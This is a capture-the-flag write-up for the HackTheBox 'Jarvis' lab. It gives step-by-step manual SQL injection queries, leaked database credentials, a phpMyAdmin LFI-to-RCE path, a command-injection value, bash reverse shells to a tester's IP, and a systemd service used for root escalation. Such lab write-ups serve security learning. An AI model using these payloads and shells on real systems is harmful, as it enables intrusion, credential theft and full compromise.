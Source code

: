 ```yaml
---
title: "HackTheBox - WriteUp 14"
date: 2019-07-13T22:31:09+08:00
description: "HackTheBox 练手 - Jarvis - SQLi+Systemd"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Jarvis

Nmap result: 22,80 with Apache and php.

SQLi Defender enabled, you should avoid `'` `"` `ORDER/order` `UNION/union` and also `9208%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23` in command within the request of `room.php?cod=`, but this defender is a crispy one, so it may not work.

# User

Step 1: Sqli

`room.php?cod=1` SQL Injection at param `cod`. You can use SQLMap and get banned, then wait, then try again, repeat the step, you'll find it.

The manual sqli should achieved like this:

```
10.10.10.143/room.php?cod=1 order by 7
10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5,6,7
10.10.10.143/room.php?cod=-1 union select 1, group_concat(schema_name), 3, 4,
5, 6, 7 from information_schema.schemata
10.10.10.143/room.php?cod=-1 union select 1, group_concat(table_name), 3, 4,
5, 6, 7 from information_schema.tables where table_schema='hotel'
10.10.10.143/room.php?cod=-1 union select 1, group_concat(column_name), 3, 4,
5, 6, 7 from information_schema.columns where table_name='room'
10.10.10.143/room.php?cod=-1 union select 1, group_concat(table_name), 3, 4,
5, 6, 7 from information_schema.tables where table_schema='mysql'
10.10.10.143/room.php?cod=-1 union select 1, group_concat(column_name), 3, 4,
5, 6, 7 from information_schema.columns where table_name='user'
10.10.10.143/room.php?cod=-1 union select 1, group_concat(User,0x0a,Password),
3, 4, 5, 6, 7 from mysql.user
```

Step 2: RCE

`/phpadmin` use the credentials you just get `DBadmin:imissyou`, 

then follow the procedure here: https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/

Get the cookie value of phpmyadmin: 3u5vpovmecn9md1dl7du5a4cthnul6pt

The LFI: `http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_3u5vpovmecn9md1dl7du5a4cthnul6pt`

You'll get the shell or `www-data`.

```bash
$ sudo -l
(pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
$ python3 -c "import pty;pty.spawn('/bin/sh')"
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

Upload the prepared shell script and chmod 777.

```bash
#!/bin/sh
bash -c 'bash -i &>/dev/tcp/10.10.14.6/4455 0<&1'
```

Then input: `127.0.0.1$(/tmp/143.sh)`

Then you will have the user flag.

# Root

Check SUID file, found `/bin/systemctl`, then `mkdir -p ~/.config/systemd/user/`

Upload the preparde systemd service to `~/.config/systemd/user/`

The service file looks like:

```systemd
[Unit]
Description=Patrick's Telegram Bot Watchdog

[Service]
ExecStart=/bin/bash -c '/bin/bash -i &>/dev/tcp/10.10.14.6/4466 0<&1'

[Install]
WantedBy=multi-user.target
```

Then `systemctl enable --now ~/.config/systemd/user/fuckjarv4.service`

Then you have the root shell.

(END)
